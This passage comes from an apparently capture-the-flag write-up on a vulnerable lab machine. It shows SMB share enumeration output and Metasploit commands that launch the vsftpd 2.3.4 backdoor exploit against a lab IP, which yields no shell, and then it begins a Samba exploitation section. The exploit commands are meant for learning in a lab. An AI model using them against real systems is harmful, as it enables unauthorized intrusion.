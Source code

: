 ```bash
 fw--w--w--               11 Thu Apr  1 06:33:35 2021    .X0-lock
 fw--w--w--                0 Thu Apr  1 06:34:22 2021    5581.jsvc_up
 fw--w--w--             1600 Thu Apr  1 06:33:08 2021    vgauthsvclog.txt.0
 .\tmp.X11-unix*
 dr--r--r--                0 Thu Apr  1 06:33:35 2021    .
 dr--r--r--                0 Thu Apr  1 07:09:11 2021    ..
 fr--r--r--                0 Thu Apr  1 06:33:35 2021    X0
 opt                                                     NO ACCESS
 IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
 ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
By doing a recursive scan, we get to know what content is stored in the tmp directory. Now,
we will first move toward the FTP exploitation and try to exploit it.
 
## Exploitation

### FTP Exploitation

Here, we can use [__searchsploit__](https://www.exploit-db.com/searchsploit){:target="_blank"} to find the exploit.

```bash
 msf6 > search vsftpd 2.3.4
 Matching Modules
 #  Name                                  Disclosure Date  Rank       Check  Description
    ----                                  ---------------  ----       -----  -----------
 0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution 
```
As we get vsftpd 2.3.4 – Backdoor Command Execution (Metasploit). Let’s exploit it using 
[__Metasploit__](https://www.metasploit.com/){:target="_blank"}.

```bash
 msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.129.127.33
 RHOSTS => <ip address>
 msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST tun0
 LHOST => tun0
 msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
 [*] 10.129.127.200:21 - Banner: 220 (vsFTPd 2.3.4) 
 [*] 10.129.127.200:21 - USER: 331 Please specify the password.
 [*] Exploit completed, but no session was created.
```
As you are able to see above, we provided the machine IP address as an RHOSTS(Remote Host Computer)
and our local IP address(tun0) as an LHOST(Local Host Computer or tun0). So, we can exploit the FTP
using a backdoor but we didn’t get a shell. So, now let’s move to smb exploitation manually as well
as using the [__Metasploit__](https://www.metasploit.com/){:target="_blank"}.

### Samba Exploitation (Using Metasploit)

We can search samba with version on metasploit and find a suitable exploit for it.

